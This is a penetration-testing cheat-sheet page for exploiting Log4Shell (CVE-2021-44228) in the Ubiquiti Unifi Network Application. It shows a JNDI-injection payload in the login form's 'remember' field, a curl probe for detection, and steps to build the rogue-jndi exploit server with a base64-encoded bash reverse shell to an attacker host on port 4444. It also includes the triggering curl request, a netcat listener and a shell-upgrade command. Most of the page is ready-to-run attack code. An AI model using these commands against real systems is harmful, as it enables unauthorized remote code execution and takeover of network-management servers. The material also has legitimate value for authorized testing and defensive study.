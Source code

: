 ```yaml
---
description: https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi
---
```


# CVE-2021-44228 : Unifi

## Application context

The Unifi Network Application is used to manage Ubiquiti software and hardware solutions. The application is most commonly hosted on port 8443 via HTTPS.

The vulnerability concerns "rememberme" parameter in the login form but it can sometimes concern "username" parameter.

Request example :

```web-idl
POST /api/login HTTP/2
Host: <TARGET> 
Content-Length: 109
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96"
Sec-Ch-Ua-Mobile: ?0
User-Agent: User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Content-Type: application/json; charset=utf-8
Accept: */*
Origin: https://<TARGET>
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://<TARGET>/manage/account/login?redirect=%2Fmanage
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{"username":"asdf","password":"asdfas","remember":"<PAYLOAD>","strict":true}
```

## Test if the vulnerability is present

* Versions prior to 6.5.54 are vulnerable to remote code execution.
* Request a temporary subdomain on dnslog.cn : toto.cn
* Build a curl request with JNDI injection to trigger request to the temporary subdomain

```bash
curl -i -s -k -X POST -H $'Host: $TARGET:8443' -H $'Content-Length: 104' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://toto.cn:1389/o=tomcat}\",\"strict\":true}' $'https://$TARGET:8443/api/login'
```

## Use veracode-research exploit

### Download the exploit

```bash
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```

### Craft a command to deliver the reverse shell

```bash
echo 'bash -c bash -i >&/dev/tcp/$Attacker_IP/4444 0>&1' | base64

java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTkyLjE2OC4xMS41MC80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "$ATTACKER_IP"

```

### Get Reverse Shell on target

```bash
curl -i -s -k -X POST -H $'Host: $TARGET:8443' -H $'Content-Length: 104' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://$ATTACKER_IP:1389/o=tomcat}\",\"strict\":true}' $'https://$TARGET:8443/api/login'
```

Or use Burp and modify `remember` parameter

### Start up a netcat listener on the port

```bash
nc -lvnp 4444
```

## Upgrade shell terminal

```bash
script /dev/null -c bash
```
